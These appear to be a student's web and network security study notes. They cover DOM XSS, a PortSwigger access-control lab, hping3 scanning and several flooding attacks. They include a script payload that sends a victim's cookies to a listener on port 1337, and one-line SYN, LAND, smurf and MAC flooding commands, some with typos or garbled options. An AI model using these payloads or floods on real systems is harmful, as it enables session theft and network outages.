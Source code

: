 # File Inclusion

Check for [File Inclusion Vulnerabilty](../day5/day5.md#file-inclusion-vulnerability) if you learn the basic working where we discuss how things really work in here.

# Direct Object Modal XSS

Refer to [OWASP DOM Based XSS Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS) which tell about the making DOM based XSS Attack.

Steps to performing the practical is the following:

- Go to the page and make changes to the url, the redirected in *default* should be the following:

```
<script>window.location='http://127.0.0.1:1337/cookie?=' + document.cookie</script>
```

And this will get directed the attacker side machine which will be provide the attacker with the session id of the machine or the application that user will be using, say it could be *facebook* or say *youtube*, but the attack might be able to get the sesssion id.

For that attacker would be running an session capture mechanism on his side.

```
python -m http.server 1337
```

This command lets the attacker to listen on port 1337 where he can have the access of the session id.


# Reflected XSS

Refer to [OWASP XSS (Cross-site Scripting)](https://owasp.org/www-community/attacks/xss/) to learn more about it. 



# (ZAP) ZED Attacking Proxy

Move to Source Code Analysis tools, in order to see the tools that are used in order to identify that whether the source code is secure or not.

You can run ap in Kali Linux, using the following cmd.

```
sudo apt install zaproxy
```

It includes DAST and SAST.

# Method-based access control can be circumvented

It is the very vulnerability where normal users are able to promote themselves to the admin account using manipulation of the http requests. Our target is promte to normal user using the adminintrative priveleges by exploiting the method based flaws. Follow the [link](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented) to access the Lab.

Steps to do that:

- Open the lab and login in with credentials (administrator, admin) and see if you are able to upgrade the users, *which you'll be able to*, use burp-suite to track down the request made and **send it to the repeater**.

- Next, try to log in with normal user, and try to change the http request by copying the session id of the user that you've logged in as, and go to the repeater and change the session id of the request that was made with the new one.

- Now *double-click* and change the request to the GET, now change the username to the user you are logged in as and send the request, you'll noteice that you are able to make the change without being an administrator.

# Active Scanning and Finger-printing


```
sudo hping3 -s --scan $PORT_RANGE $TARGET_IP
```

This `-S` means that check for SYN packages, and specify the port range and target IP Address. It will give the command like this.

```
sudo hping3 -S -p 80 $TARGET_IP
```

This is only happen if the port number is open then only it will respond to the SYN message, otherwise it won't give you the message, otherwise it won't give you the response. 

Now in order you wish ro flood the request with the SYN packages, in order that the machine gets all the messages on the destination machine. **Do a experiment**, create two machine and run wireshark over both of them, when you'll start with the SYN flooding, you can check the wireshark to see how packets are going on both the machines. Destination machine will be occuring with high latency, because the website is bussy in reposding to SYN messages.

```
sudo hing3 -S -p 80 $TARGET_IP --flood
```

Use the following to flood the traffic between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP
```

But you can try to flood the SYN packages between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP --flood
```

This is called **LAND Attack**, where we are spoofing the traffic which is going from your local machine but it seems like it is comming from machine.

```
sudo hping --icmp
```

# ICMP Smurfing Attack

You need to run one command and thing will start happening.

```
sudo hping3 --icmp -c 1 192.168.0.255 --rand-source --flood
```

This will send the ICMP messages to the Broadcast address of the router with some random IP address and flood the router with ICMP address, such that router will not be able to send reposnse to other machines in the network.

# A talk worth talking about Switches 

It is a Layer 2 Attack and you can flood mac addresses and use the tool named **macof** to flood the mac addresses. 
```
sudo macof -i en9
```

And that's it, you'll be able to find the random MAC addresses generating out of nowhere. 


# Resources

Visit the [portswigger website](https://portswigger.net/web-security) in order to learn more about the methods and latest web based hacks or vulnerabilities in order to protect the website from hacks and threats. 

Visit to [OWASP Input Validation](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html) to look how the inputs taken from the users can't be trusted, secure the methods of taking inputs.

1. Remember to read about the **SAST and DAST tools** and therefore look for it.
2. Read about MVC Structure. Also remember to look for Web Framework, Flask.
3. Js-gaurd is not secure, even if the website is full of virus, it won't block the website. *Need to check it!*

Visit [Offsec File Inclusion Vulnerability](https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/) to learn more about how things work, it explains the RFI as well as LFI.
